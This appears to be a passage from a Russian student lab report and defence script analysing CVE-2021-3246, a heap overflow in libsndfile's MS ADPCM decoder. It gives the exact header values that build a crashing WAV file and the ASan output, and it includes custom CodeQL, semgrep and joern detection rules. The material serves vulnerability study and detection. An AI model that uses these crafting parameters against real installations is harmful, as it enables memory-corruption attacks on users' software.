    G72x_ADPCM_WAV_FMT  g72x ;
    EXTENSIBLE_WAV_FMT  ext ;
    GSM610_WAV_FMT      gsm610 ;
    WAV_FMT_SIZE20      size20 ;
    char                padding [512] ;
} WAV_FMT ;
```

В `MS_ADPCM_WAV_FMT` восьмое поле — `samplesperblock`, в `EXTENSIBLE_WAV_FMT` восьмое поле — `validbits`. Поскольку это объединение, для extensible-файла чтение `wav_fmt->msadpcm.samplesperblock` фактически читает `wValidBitsPerSample`. В PoC это 10.

**Шаг 3. Проверка в `wavlike_msadpcm_init`.** В 1.0.30 она одна:

```c
if (blockalign < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be > %d.\n",
                    blockalign, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;
```

Для PoC: `2592 < 7 * 226 = 1582` — неверно, проверка проходит. Затем считается `count`:

```c
count = 2 * (pms->blocksize - 6 * pms->channels) / pms->channels ;
if (pms->samplesperblock != count)
    return SFE_INTERNAL ;
```

Подставляем: `2 * (2592 - 6 * 226) / 226 = 2 * 1236 / 226 = 2472 / 226 = 10` (целочисленное деление). `samplesperblock` тоже 10 — равенство выполняется.

**Шаг 4. Выделение памяти.**

```c
pmssize = sizeof (MSADPCM_PRIVATE) + blockalign + 3 * psf->sf.channels * samplesperblock ;

if (! (psf->codec_data = calloc (1, pmssize)))
    return SFE_MALLOC_FAILED ;
```

`sizeof (MSADPCM_PRIVATE)` на 64-битной платформе — 56 байт. Считаем: `56 + 2592 + 3 * 226 * 10 = 56 + 2592 + 6780 = 9428` байт. Именно этот размер ASan и показывает.

**Шаг 5. Раскладка буфера.**

```text
смещение 0      заголовок MSADPCM_PRIVATE            56 байт
смещение 56     samples[0..2259]                     4520 байт (2260 short)
смещение 4576   block[0..2591]                       2592 байта
смещение 7168   запас                                2260 байт (1130 short)
смещение 9428   конец выделения
```

`samples` указывает на `dummydata`, `block` — на `dummydata + channels * samplesperblock`, то есть сразу за областью сэмплов. Запас появился из-за множителя `3` в формуле: под сэмплы нужно `2 * C * S` байт, под блок — `blockalign`, а выделено `3 * C * S`. Лишний `C * S` байт и есть запас.

**Шаг 6. Декодирование.** В `msadpcm_decode_block` для `channels != 1` берётся стерео-преамбула: читаются 14 байт, четыре сэмпла кладутся в индексы 0–3, `blockindx = 14`. Затем:

```c
sampleindx = 2 * pms->channels ;   /* 2 * 226 = 452 */
while (blockindx < pms->blocksize)
{   bytecode = pms->block [blockindx++] ;
    pms->samples [sampleindx++] = (bytecode >> 4) & 0x0F ;
    pms->samples [sampleindx++] = bytecode & 0x0F ;
    } ;
```

В блоке остаётся `2592 - 14 = 2578` байт, на каждый байт пишутся два `short`. Это 5156 записей в индексы 452…5607.

**Шаг 7. Где начинается выход за границу.** В выделении помещается `(9428 - 56) / 2 = 4686` элементов `short` с индексами 0…4685. Первая запись за конец — индекс 4686. За границу уходят индексы 4686…5607, то есть **922 записи** по 2 байта. ASan фиксирует первую из них на `ms_adpcm.c:279`.

Почему падение не происходит раньше? Записи с 452 по 2259 идут в область сэмплов, с 2260 по 3555 — в область блока (он уже прочитан, поэтому порча не мешает), с 3556 по 4685 — в запас. Только после 4685 начинается чужая память.

**Шаг 8. Исправление в 1.1.0.** Вместо одной проверки `blockalign` появились две:

```c
/* There's 7 samples per channel in the preamble of each block */
if (samplesperblock < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error samplesperblock (%d) should be >= %d.\n",
                    samplesperblock, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;

if (2 * blockalign < samplesperblock * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be >= %d.\n",
                    blockalign, samplesperblock * psf->sf.channels / 2) ;
    return SFE_INTERNAL ;
    } ;
```

Для PoC первая даёт `10 < 1582` и отклоняет файл до `calloc` и до декодера.

::: say
«Причина не в том, что кто-то забыл проверить длину при копировании. Причина в согласовании двух размеров: blockalign и samplesperblock. Для extensible-файла samplesperblock читается из wValidBitsPerSample, проверка каналов 1–2 не выполняется, а старая проверка смотрит только на blockalign. В итоге под сэмплы выделяется 2260 short, а декодер пишет 5156 значений, начиная с индекса 452. Первая запись за границу — индекс 4686, всего за границу уходят 922 short. В 1.1.0 добавлены проверки samplesperblock >= 7 * channels и 2 * blockalign >= samplesperblock * channels, поэтому PoC отклоняется ещё до выделения памяти».
:::

### 4.4. CodeQL: пять запросов и своё правило

База создаётся отдельно для каждой версии:

```sh
codeql database create work/db-1.0.30 --language=cpp \
  --source-root=work/src/libsndfile-1.0.30 \
  --command="scripts/codeql-build.sh 1.0.30" --overwrite
```

Затем запускаются пять запросов из пакета `cpp-queries` 1.9.2:

| CWE | Запрос | Важность / точность | Найдено |
|---|---|---|---|
| CWE-120 | `cpp/unbounded-write` | error, medium | 0 |
| CWE-190 | `cpp/integer-overflow-tainted` | warning, low | 290 |
| CWE-129 | `cpp/unclear-array-index-validation` | warning, low | 8 |
| CWE-457 | `cpp/conditionally-uninitialized-variable` | warning | 2 |
| CWE-468 | `cpp/suspicious-add-sizeof` | warning, high | 1 |
| | | **Итого** | **301** |

**CWE-120.** Запрос ищет запись в буфер без ограничения длины и строит путь от источника к стоку. На libsndfile — 0. Это не значит, что код чистый: исследуемая CVE не является неограниченным копированием, она — ошибка согласования размеров. Модель «недоверенная длина → запись» её не описывает.

**CWE-190.** 290 срабатываний, больше всего в `src/GSM610/gsm_decode.c` (153), `src/sfendian.h` (23), `src/nms_adpcm.c` (17), `src/sd2.c` (15), `src/ms_adpcm.c` (13), `src/double64.c` (12). Большинство — битовые операции и ожидаемое усечение. Это шум низкой точности, а не 290 ошибок.

**CWE-129.** 8 срабатываний: `long_term.c:914`, `ima_adpcm.c:468`, `ima_oki_adpcm.c:77` и `:86`, `ms_adpcm.c:292`, `sd2.c:317`, `:325`, `:333`. В `ms_adpcm.c:292` — ложное: `bytecode` ограничен `& 0xF`, а `AdaptationTable` содержит 16 элементов. Остальные требуют ручной проверки.

**CWE-457.** Два срабатывания: `programs/common.c:57` и `programs/sndfile-info.c:256`. Второе — истинное: локальная `double signal_max` может остаться неинициализированной, если `sf_command` вернёт ошибку. Первое — **ложное**: `max` объявлена как `static double`, а объекты со статическим сроком хранения обнуляются до начала программы, поэтому чтение не является UB. В исходном отчёте оба названы истинными; это ошибка, которую стоит знать (подробнее — приложение F).

**CWE-468.** Одно срабатывание, `src/nms_adpcm.c:707`, и оно истинное:

```c
memset (pnms->block + (k * sizeof (short)), 0,
        (pnms->shortsperblock - k) * sizeof (short)) ;
```

`pnms->block` имеет тип `unsigned short *`, поэтому смещение `k * sizeof(short)` масштабируется ещё раз. При коротком чтении `memset` выходит за массив `block`.

**Своё правило CodeQL.** Файл `rules/codeql/msadpcm-block-size.ql`:

```ql
/**
 * @name CVE-2021-3246: недостаточная проверка размера блока MS ADPCM
 * @description В wavlike_msadpcm_init проверяется только blockalign,
 *              но не samplesperblock.
 * @kind problem
 * @problem.severity error
 * @security-severity 8.8
 * @id cpp/lab4-msadpcm-block-size
 * @tags security
 *       external/cwe/cwe-787
 *       external/cwe/cwe-122
 */

import cpp

from IfStmt check, BinaryOperation lt
where
  check.getEnclosingFunction().hasName("wavlike_msadpcm_init") and
  lt = check.getCondition() and
  lt.getOperator() = "<" and
  lt.getLeftOperand().toString() = "blockalign"
select check,
  "Проверка размера блока MS ADPCM использует blockalign и не ограничивает samplesperblock (CVE-2021-3246)"
```

Почему 1 на 1.0.30 и 0 на 1.1.0:

- запрос ограничен функцией `wavlike_msadpcm_init`;
- ищется `if` с оператором `<`, у которого левый операнд — именно `blockalign`;
- в 1.1.0 первая проверка — `samplesperblock < 7 * channels`, вторая — `2 * blockalign < ...`; левый операнд второй — умножение, а не сам `blockalign`, поэтому запрос молчит.

### 4.5. semgrep: три набора и своё правило

| Набор | Назначение | Правил | Файлов | Находок |
|---|---|---|---|---|
| `p/c` | штатный набор для C | 2 | 130 | 0 |
| `p/default` | общий набор по умолчанию | 336 | 144 | 0 |
| `p/security-audit` | security-аудит | 88 | 144 | 7 |

Штатный C-набор оказался очень маленьким: всего два правила. Для содержательного анализа дополнительно прогнан `p/security-audit`.

Семь находок:

| Правило | Файл:строка | Разбор |
|---|---|---|
| `insecure-use-printf-fn` | `src/G72x/g72x_test.c:78` | тестовый файл, не входит в библиотеку |
| `double-free` | `src/alac.c:871` | **ложное**: два `free(pakt_data)` на взаимоисключающих путях |
| `double-free` | `src/test_conversions.c:88` | тестовый файл |
| `use-after-free` | `src/wavlike.c:332` | **ложное**: после `free` указатель сразу переприсваивается `calloc` |
| `use-after-free` | `src/wavlike.c:346` | **ложное** по той же причине |
| `insecure-use-strcat-fn` | `src/common.h:991` | макрос-обёртка, общее предупреждение |
| `insecure-use-string-copy-fn` | `src/common.h:997` | макрос-обёртка, общее предупреждение |

Про `alac.c:871`: в функции есть успешный путь с `free(pakt_data); return info;` и путь ошибки `FreeExit: free(pakt_data); free(info);`. Они взаимоисключающие, двойного освобождения нет. semgrep видит два вызова `free` и не различает пути. Это хороший пример ограничения шаблонного анализа.

Своё правило `rules/semgrep/msadpcm-block-size.yaml`:

```yaml
rules:
  - id: lab4-msadpcm-block-size
    languages: [c]
    severity: ERROR
    message: >
      MS ADPCM: проверяется только blockalign, а samplesperblock не ограничен.
      Это позволяет выйти за границы буфера в msadpcm_decode_block
      (CVE-2021-3246 в libsndfile 1.0.30).
    metadata:
      cwe:
        - "CWE-787: Out-of-bounds Write"
      references:
        - https://nvd.nist.gov/vuln/detail/CVE-2021-3246
        - https://github.com/libsndfile/libsndfile/issues/687
    patterns:
      - pattern-inside: |
          int wavlike_msadpcm_init(...)
          {
            ...
          }
      - pattern: |
          if (blockalign < 7 * $CHANNELS)
          {
            ...
          }
```

Результат: 1 находка в 1.0.30 (`src/ms_adpcm.c:131`), 0 в 1.1.0. Правило синтаксическое: оно не доказывает выход за границу, а узнаёт уязвимую форму условия.

### 4.6. joern: штатный набор и своё правило

База запросов joern 4.0.669 содержит 58 запросов: C — 27, Android — 10, PHP — 9, Java — 7, Kotlin — 3, Ghidra — 2. Метка `default` стоит на 32 запросах, из них для C — 16. Команда `joern-scan --language c` запускает именно эти 16.

```sh
work/tools/joern/joern-cli/joern-scan --language c \
  work/src/libsndfile-1.0.30/src
```

Получено 368 срабатываний:

| Запрос | Балл | Находок |
|---|---|---|
| Copy loop detected | 2.0 | 293 |
| Signed Shift May Cause Undefined Behavior | 2.0 | 42 |
| Array access at fixed offset but sufficient length check not determined | 3.0 | 18 |
| Truncation in assignment involving `strlen` call | 2.0 | 6 |
| Two file operations on the same path can act on different files | 3.0 | 6 |
| Unchecked read/recv/malloc | 3.0 | 2 |
| Non-constant format string passed to printf/sprintf/vsprintf | 4.0 | 1 |
| **Итого** | | **368** |

Что это значит:

- **293 Copy loop** — циклы кодеков ALAC, G.72x, GSM, IMA ADPCM, MS ADPCM, NMS ADPCM. Запрос помечает запись в массив, если индекс встречается в заголовке цикла, и не проверяет границу. В `ms_adpcm.c:307` это обычная работа декодера.
- **42 Signed Shift** — левый сдвиг знакового числа. В основном ALAC и `nms_adpcm.c`. Отмечается форма операции, а не доказанное переполнение.
- **18 Array access** — одна функция `audio_detect.c:vote_for_format`, строки 91, 94, 97, 100 с повторами. Внутри цикла читаются `data[0]`, `data[2]`, `data[3]`; длина перед циклом уменьшается до кратной 4, но запрос такую проверку достаточной не считает.
- **6 strlen** — присваивание `strlen` в `int`: `aiff.c:1440`, `aiff.c:1534`, `common.c:165`, `common.c:391`, `sd2.c:282`, `sd2.c:283`. Формальное замечание: на 64-битной платформе `size_t` шире `int`.
- **6 file operations** — `file_io.c:575/577` (ветки `if/else` вокруг `open`), `common.c:1754/1759` (два `fopen` в `psf_open_tmpfile`), `test_file_io.c:94/108` (тестовый файл).
- **2 Unchecked read/recv/malloc** — `alac.c:826` и `cart.c:42`, `malloc` без проверки результата.
- **1 format string** — `common.c:1188`, `psf_hexdump`: первый аргумент `printf` — тернарное выражение, но обе ветки константные. Запрос проверяет только `isLiteral`, поэтому это ложное срабатывание.

Своё правило — скрипт `rules/joern/msadpcm-block-size.sc`:

```scala
@main def main(inputPath: String, outFile: String) = {
  importCode.c(inputPath)

  val hits = cpg.method
    .nameExact("wavlike_msadpcm_init")
    .controlStructure
    .controlStructureType(ControlStructureTypes.IF)
    .filter { cs =>
      cs.condition.l.exists { cond =>
        val kids = cond.astChildren.l
        kids.length >= 2 &&
        kids.head.code == "blockalign" &&
        kids(1).code.startsWith("7 *")
      }
    }
    .map { cs =>
      val file = cs.file.name.l.headOption.getOrElse("?")
      val line = cs.lineNumber.map(_.toString).getOrElse("?")
      val code = cs.condition.code.l.headOption.getOrElse(cs.code)
      s"$file:$line: $code"
    }
    .l
    .distinct
    .sorted

  val text = s"находок: ${hits.size}\n" + hits.map(h => s"$h\n").mkString
  java.nio.file.Files.writeString(java.nio.file.Paths.get(outFile), text)
  println(text)
}
```

Запуск:

```sh
export JAVA_HOME="$PWD/work/tools/jdk-21"
export PATH="$JAVA_HOME/bin:$PATH"

work/tools/joern/joern-cli/joern --script rules/joern/msadpcm-block-size.sc \
  --param inputPath="$PWD/work/src/libsndfile-1.0.30/src" \
  --param outFile="$PWD/results/joern-custom-1.0.30.txt"
```

Результат: 1 находка в 1.0.30 (`ms_adpcm.c:131`), 0 в 1.1.0. Ограничение то же: правило узнаёт форму условия, а не доказывает переполнение.

### 4.7. Сравнение трёх правил и трёх инструментов

| Средство | Движок | Что ищет | 1.0.30 | 1.1.0 | Ложные |
|---|---|---|---|---|---|
| CodeQL | AST + CFG + dataflow, QL | `if` с `blockalign` в `wavlike_msadpcm_init` | 1 | 0 | нет |
| semgrep | AST-шаблоны | тот же `if` по текстовому шаблону | 1 | 0 | нет |
| joern | обход CPG на Scala | тот же `if` по детям AST условия | 1 | 0 | нет |

| Инструмент | Сильная сторона | Слабая сторона |
|---|---|---|
| CodeQL | глубокий анализ, типы, dataflow, компактные запросы | долгая сборка базы, нужна компиляция |
| semgrep | быстрый старт, простые правила, реестр | нет полноценного потока управления, ложные на указателях |
| joern | запросы по CPG, гибкий Scala DSL | нужен JDK, база для C меньше, много эвристик |

Все три правила сошлись на одной сигнатуре, потому что она действительно определяет уязвимую версию: в 1.0.30 есть `blockalign < 7 * channels`, в 1.1.0 её нет. Совпадение результатов на двух версиях — главный аргумент, что правила не случайны.

---

## 5. Демонстрация работы

### 5.1. Требования к стенду

Демонстрация идёт на этой же машине, отдельная Windows-виртуальная машина не нужна.

Нужно:

- Linux с установленным `clang`, `make`, `python3`, `git`;
- каталог `lab4/` с репозиторием;
- каталог `work/` с исходниками, сборками и инструментами (в git не входит);
- для полного прогона — интернет: CodeQL скачивает bundle, semgrep обращается к реестру;
- для быстрой демонстрации интернет не нужен, достаточно готовых `results/`.

Проверка одной командой:

```sh
cd ~/Projects/gitrepo/mbks_labs/lab4
ls work/build/asan-1.0.30/programs/sndfile-info \
   work/tools/codeql/codeql \
   work/venvs/semgrep/bin/semgrep \
   work/tools/joern/joern-cli/joern
```

Если чего-то нет:

```sh
./scripts/01-fetch.sh      # исходники libsndfile
./scripts/02-build.sh      # обычная и ASan-сборка
./scripts/04-codeql.sh     # CodeQL bundle, базы, запросы
./scripts/05-semgrep.sh    # venv и наборы правил
./scripts/06-joern.sh      # JDK и joern должны уже лежать в work/tools
```

### 5.2. Подготовка (чек-лист)

За 5 минут до защиты:

1. Открыть терминал в `lab4/`, увеличить шрифт.
2. Проверить версии: `cat results/versions.txt`.
3. Проверить PoC: `ls -l poc/msadpcm_poc.wav` — 2660 байт.
4. Прогнать PoC на 1.0.30 и 1.1.0 (раздел 5.3) — убедиться, что ASan и отказ на месте.
5. Проверить сводки: `cat results/codeql-summary.txt results/semgrep-summary.txt results/joern-summary.txt`.
6. Проверить свои правила: `cat results/joern-custom-summary.txt`, `grep -c` по SARIF или просто открыть `report.md` 2.16.
7. Держать открытыми `report.md`, `README.md` и этот файл.

::: note
Если преподаватель просит показать «вживую», не обязательно запускать `run-all.sh`. Быстрый сценарий — PoC плюс три своих правила на готовых базах и исходниках. Полный прогон нужен только если он просит пересобрать всё с нуля.
:::

### 5.3. Блок A. Версии и PoC

**A1. Версии.**

```sh
cat results/versions.txt
```

На экране:

```text
CodeQL: CodeQL command-line toolchain release 2.27.3.
semgrep: 1.182.1
joern: 4.0.669
JDK: openjdk version "21.0.13" 2026-10-20 LTS
clang: clang version 23.1.3
libsndfile vulnerable: AC_INIT([libsndfile],[1.0.30],...
libsndfile fixed: AC_INIT([libsndfile],[1.1.0],...
```

Что сказать: «Версии зафиксированы в `results/versions.txt`. От них зависят числа: CodeQL 2.27.3, semgrep 1.182.1, joern 4.0.669, clang 23.1.3».

**A2. Файл PoC.**

```sh
ls -l poc/msadpcm_poc.wav
python3 poc/gen_msadpcm_poc.py
```

На экране: `записан ... (2660 байт)`. Можно показать `xxd -l 64 poc/msadpcm_poc.wav` — видно `RIFF`, `WAVE`, `fmt `, `data`.

**A3. Падение на 1.0.30.**

```sh
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav
```

На экране:

```text
==...==ERROR: AddressSanitizer: heap-buffer-overflow ...
WRITE of size 2 ...
    #0 ... in msadpcm_decode_block .../src/ms_adpcm.c:279
    #1 ... in wavlike_msadpcm_init .../src/ms_adpcm.c:171
    #2 ... in wav_open .../src/wav.c:258
0x... is located 0 bytes after 9428-byte region [...]
SUMMARY: AddressSanitizer: heap-buffer-overflow .../src/ms_adpcm.c:279
```

Что сказать: «Файл 2660 байт, один блок MS ADPCM, 226 каналов. ASan показывает запись `WRITE of size 2` сразу за 9428-байтовым регионом, в `msadpcm_decode_block` на строке 279. Стек показывает путь: `sf_open` → `wav_open` → `wavlike_msadpcm_init` → `msadpcm_decode_block`».

**A4. Отказ на 1.1.0.**

```sh
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.1.0/programs/sndfile-info poc/msadpcm_poc.wav
```

На экране:

```text
Error : Not able to open input file .../poc/msadpcm_poc.wav.
*** Error samplesperblock (10) should be >= 1582.
```

Что сказать: «На исправленной версии тот же файл отклоняется до декодера: `samplesperblock (10) should be >= 1582`. Это ровно та проверка, которой не было в 1.0.30».

### 5.4. Блок B. CodeQL

**B1. Сводка.**

```sh
cat results/codeql-summary.txt
```

На экране — таблица: 290 + 8 + 2 + 1 + 0 = 301, и своё правило 1 / 0.

Что сказать: «Пять штатных запросов дали 301 срабатывание. Почти всё — CWE-190, 290 штук, это низкая точность. CWE-120 не дал ничего, потому что исследуемая CVE — не неограниченное копирование. Своё правило дало 1 на 1.0.30 и 0 на 1.1.0».

**B2. Своё правило на готовой базе.**

```sh
work/tools/codeql/codeql database analyze work/db-1.0.30 \
  rules/codeql/msadpcm-block-size.ql \
  --format=sarif-latest --output=/tmp/lab4-codeql-1.0.30.sarif --threads=4

python3 - <<'PY'
import json
d = json.load(open('/tmp/lab4-codeql-1.0.30.sarif'))
print('находок:', sum(len(r.get('results', [])) for r in d['runs']))
PY
```

Аналогично для `work/db-1.1.0` и `--output=/tmp/lab4-codeql-1.1.0.sarif`. Ожидается `находок: 1` и `находок: 0`.

Время: 10–20 секунд на запрос. Если базы нет — сначала `./scripts/04-codeql.sh`, это дольше.

Что сказать: «Запрос ограничен функцией `wavlike_msadpcm_init`, ищет `if` с оператором `<`, у которого слева именно `blockalign`. В 1.1.0 слева `samplesperblock` или `2 * blockalign`, поэтому запрос молчит».

### 5.5. Блок C. semgrep

**C1. Сводка.**

```sh
cat results/semgrep-summary.txt
```

На экране: `p/c` — 0, `p/default` — 0, `p/security-audit` — 7, своё правило 1 / 0.

Что сказать: «Штатный C-набор — всего два правила, на libsndfile он молчит. `p/default` — 336 правил, тоже 0. `p/security-audit` дал 7 находок, из них два use-after-free и один double-free после разбора оказались ложными, два — в тестовых файлах, два — предупреждения о strcpy/strcat в макросах».

**C2. Своё правило.**

```sh
work/venvs/semgrep/bin/semgrep \
  --config rules/semgrep/msadpcm-block-size.yaml --no-git-ignore \
  work/src/libsndfile-1.0.30/src/ms_adpcm.c

work/venvs/semgrep/bin/semgrep \
  --config rules/semgrep/msadpcm-block-size.yaml --no-git-ignore \
  work/src/libsndfile-1.1.0/src/ms_adpcm.c
```

На экране: для 1.0.30 — `1 finding`, строка `131┆ if (blockalign < 7 * psf->sf.channels)`; для 1.1.0 — `Ran 1 rule on 1 file: 0 findings`.

Время: около 2 секунд на файл.

Что сказать: «`pattern-inside` ограничивает поиск телом `wavlike_msadpcm_init`, `pattern` ищет `if (blockalign < 7 * $CHANNELS)`. На 1.1.0 условие заменено, правило молчит».

### 5.6. Блок D. joern

**D1. Сводка.**

```sh
cat results/joern-summary.txt
cat results/joern-custom-summary.txt
```

На экране: 368 срабатываний и разбивка по запросам; своё правило 1 / 0.

Что сказать: «Штатный набор — 16 запросов для C с меткой default. 368 срабатываний, из них 293 — эвристика Copy loop, 42 — сдвиг знакового числа. CVE штатный набор не нашёл. Своё правило дало 1 на 1.0.30 и 0 на 1.1.0».

**D2. Своё правило.**

```sh
export JAVA_HOME="$PWD/work/tools/jdk-21"
export PATH="$JAVA_HOME/bin:$PATH"

work/tools/joern/joern-cli/joern --script rules/joern/msadpcm-block-size.sc \
  --param inputPath="$PWD/work/src/libsndfile-1.0.30/src" \
  --param outFile=/tmp/lab4-joern-1.0.30.txt
cat /tmp/lab4-joern-1.0.30.txt
```

Ожидается:

```text
находок: 1
ms_adpcm.c:131: blockalign < 7 * psf->sf.channels
```

Для 1.1.0 — `--param inputPath=.../libsndfile-1.1.0/src`, ожидается `находок: 0`.

Время: 40–60 секунд на импорт `src/` и обход. Если преподаватель не хочет ждать — показать `results/joern-custom-summary.txt` и сказать, что это тот же скрипт, сохранённый вывод.

Что сказать: «joern строит CPG через c2cpg, скрипт берёт метод `wavlike_msadpcm_init`, его `if` и проверяет детей AST условия: первый — `blockalign`, второй начинается с `7 *`. На 1.1.0 условие другое, поэтому 0».

::: note
`joern --version` не печатает версию: он открывает REPL. Версия берётся из имени jar `joernext-querydb-io.joern.querydb-4.0.669.jar` или из `results/versions.txt`.
:::

### 5.7. Ожидаемые результаты одним взглядом

| Проверка | Команда (суть) | Что должно быть |
|---|---|---|
| Версии | `cat results/versions.txt` | CodeQL 2.27.3, semgrep 1.182.1, joern 4.0.669 |
| PoC существует | `ls -l poc/msadpcm_poc.wav` | 2660 байт |
| PoC на 1.0.30 | `sndfile-info` под ASan | `heap-buffer-overflow`, `ms_adpcm.c:279`, регион 9428 |
| PoC на 1.1.0 | тот же файл | `samplesperblock (10) should be >= 1582` |
| CodeQL, пять CWE | `cat results/codeql-summary.txt` | 301: 290 / 8 / 2 / 1 / 0 |
| CodeQL, своё | `database analyze` | 1 на 1.0.30, 0 на 1.1.0 |
| semgrep, наборы | `cat results/semgrep-summary.txt` | 0 / 0 / 7 |
| semgrep, своё | `semgrep --config ...` | 1 на 1.0.30, 0 на 1.1.0 |
| joern, штатный | `cat results/joern-summary.txt` | 368, из них 293 Copy loop |
| joern, своё | `joern --script` | 1 на 1.0.30, 0 на 1.1.0 |

### 5.8. Быстрая демонстрация на 3 минуты

Шаг 0: терминал в `lab4/`, `work/` на месте.

1. `cat results/versions.txt` — одна строка про каждый инструмент.
2. `python3 poc/gen_msadpcm_poc.py` — `2660 байт`.
3. `ASAN_OPTIONS=detect_leaks=0 work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav` — ASan, `ms_adpcm.c:279`, 9428 байт.
4. `ASAN_OPTIONS=detect_leaks=0 work/build/asan-1.1.0/programs/sndfile-info poc/msadpcm_poc.wav` — отказ `samplesperblock (10) should be >= 1582`.
5. `cat results/codeql-summary.txt results/semgrep-summary.txt results/joern-summary.txt` — три сводки.
6. `cat results/joern-custom-summary.txt` — 1 / 0.

В конце: «Три независимых инструмента дают 1 находку на уязвимой версии и 0 на исправленной, а PoC подтверждает, что находка — настоящая запись за границу кучи».

### 5.9. Если что-то не сработало

| Симптом | Причина | Что делать |
|---|---|---|
| `No such file or directory: work/...` | каталог `work/` не восстановлен | `./scripts/01-fetch.sh`, `./scripts/02-build.sh` |
| `sndfile-info` не собран | нет `work/build` | `./scripts/02-build.sh` |
| `work/venvs/semgrep` нет | venv не создан | `./scripts/05-semgrep.sh` |
| `Database ... does not exist` | нет базы CodeQL | `./scripts/04-codeql.sh` |
| `java: command not found` | не выставлен `JAVA_HOME` | `export JAVA_HOME="$PWD/work/tools/jdk-21"; export PATH="$JAVA_HOME/bin:$PATH"` |
| `joern --version` зависает | это REPL, а не версия | смотреть имя jar или `results/versions.txt` |
| `p/c` не находится | нет интернета или реестра | показать `results/semgrep-*.txt`, для защиты хватает |
| ASan не срабатывает | собрана обычная версия | использовать `work/build/asan-*/...` |
| PoC не найден | не сгенерирован | `python3 poc/gen_msadpcm_poc.py` |
| Числа отличаются от отчёта | другие версии инструментов | сверить `results/versions.txt`, не подменять цифры |
| `semgrep` ругается на git | файл вне git-дерева | добавить `--no-git-ignore` |

---

## 6. Вопросы преподавателя и короткие ответы

**1. Что такое SAST?**
Статический анализ исходного кода без запуска программы. Инструмент строит модель кода — AST, CFG, dataflow — и ищет опасные конструкции: копирование без проверки длины, арифметику над недоверенными данными, индекс без проверки границ. SAST даёт первичный список гипотез, а не доказательство уязвимости.

**2. Чем SAST отличается от DAST?**
SAST читает код и не выполняет его; DAST запускает программу и подаёт входные данные. SAST видит все ветки, включая редкие, но не знает реального окружения; DAST видит реальное поведение, но только на тех входах, которые ему дали. В работе SAST — три анализатора, а роль «динамики» играет PoC под ASan.

**3. Почему выбраны именно эти пять CWE?**
Для C-библиотеки, разбирающей чужие файлы, критичны ошибки памяти и целочисленной арифметики: 120, 190, 129, 457, 468. Отдельных штатных запросов CWE-476 и CWE-125 в пакете 1.9.2 нет, поэтому вместо них взяты 457 и 468 — тоже классы, ведущие к порче памяти и UB.

**4. Почему не CWE-416, ведь он есть в пакете?**
CWE-416 действительно есть. Набор из пяти — это не «топ-5», а пять разных механизмов: запись без границы, переполнение, индекс, неинициализированная переменная, масштабирование указателя. Use-after-free в работе разобран на стороне semgrep: два ложных срабатывания в `wavlike.c`. Замена 468 на 416 была бы допустима, но не изменила бы выводы.

**5. Что такое CWE, CVE и CVSS?**
CWE — класс ошибок («так бывает»), CVE — конкретный экземпляр в продукте, CVSS — численная оценка серьёзности. CVE-2021-3246 класса CWE-787 имеет CVSS 8.8: сеть, низкая сложность, без привилегий, нужно действие пользователя, высокое влияние на конфиденциальность, целостность и доступность.

**6. Что такое taint-анализ?**
Распространение метки «недоверенные данные» от источников (файл, argv, сеть) к стокам (memcpy, индекс, арифметика). Если по пути есть проверка-санитайзер, поток блокируется. CodeQL делает это по IR и dataflow, semgrep — упрощённо, joern — по графу зависимостей.

**7. Что такое path-problem?**
Запрос, который возвращает не только место, но и путь от источника до стока. В SARIF такой результат содержит цепочку шагов. `@kind problem` даёт только место и сообщение; `@kind path-problem` требует модуль `PathGraph` и строит путь.

**8. Зачем CodeQL собирает базу и компилирует код?**
Чтобы получить AST, типы, вызовы, CFG и dataflow, которых нет в тексте. Для C/C++ фронтенд запускает компиляцию проекта и записывает её результаты в реляционную базу. Без сборки запросы к типам и потоку данных работать не будут.

**9. Почему CWE-120 не нашёл CVE-2021-3246?**
CWE-120 — про запись без ограничения длины: `strcpy`, `memcpy`, `sprintf` и т. п. Наша ошибка — согласование двух размеров: `blockalign` и `samplesperblock`. Формально запись идёт в массив `samples`, но длина определяется не аргументом копирования, а неверным `samplesperblock`. Модель «недоверенная длина → запись» такой дефект не описывает.

**10. Почему CWE-190 дал 290 срабатываний?**
Запрос низкой точности: он сообщает о любом потенциально переполняющемся выражении над недоверенными данными, даже если результат потом маскируется или приводится к меньшему типу. Больше всего в `gsm_decode.c` (153) — битовые сдвиги и маски. Это шум, требующий ручного триажа, а не 290 ошибок.

**11. Какие срабатывания CWE-129, CWE-457 и CWE-468 истинные?**
CWE-129: восемь срабатываний, `ms_adpcm.c:292` — ложное (`bytecode & 0xF`, таблица на 16 элементов), остальные требуют проверки. CWE-457: `sndfile-info.c:256` — истинное, `common.c:57` — ложное, потому что `max` статическая и обнуляется при старте. CWE-468: `nms_adpcm.c:707` — истинное, указатель `unsigned short *` масштабируется дважды.

**12. Почему `common.c:57` — ложное срабатывание?**
Там объявлено `static double data[BUFFER_LEN], max;`. Объекты со статическим сроком хранения обнуляются до начала программы, поэтому `max` не может быть неинициализированной. Если `sf_command` вернёт ошибку, `max` останется нулём, `isnormal(0)` даст false, функция вернёт 1 — это неверный результат, но не UB. CodeQL не учитывает статическое обнуление.

**13. Что такое semgrep и чем он отличается от CodeQL?**
semgrep разбирает файлы в AST и сопоставляет с YAML-шаблоном. Он не компилирует проект и не строит полноценную базу, поэтому быстрый и простой, но не видит типы и поток управления. CodeQL глубже, но требует сборки базы.

**14. Что такое `pattern-inside`?**
Условие, что найденный шаблон находится внутри указанной конструкции. В нашем правиле `pattern-inside` ограничивает поиск телом `wavlike_msadpcm_init`, чтобы такой же `if` в другом файле не срабатывал.

**15. Почему `p/c` содержит всего два правила?**
Так устроен реестр semgrep: C-набор очень маленький. Отсутствие находок не означает, что код чистый — это означает, что два правила ничего не нашли. Для содержательного анализа дополнительно прогнан `p/security-audit` (88 правил), который дал 7 находок.

**16. Какие семь находок дал `p/security-audit`?**
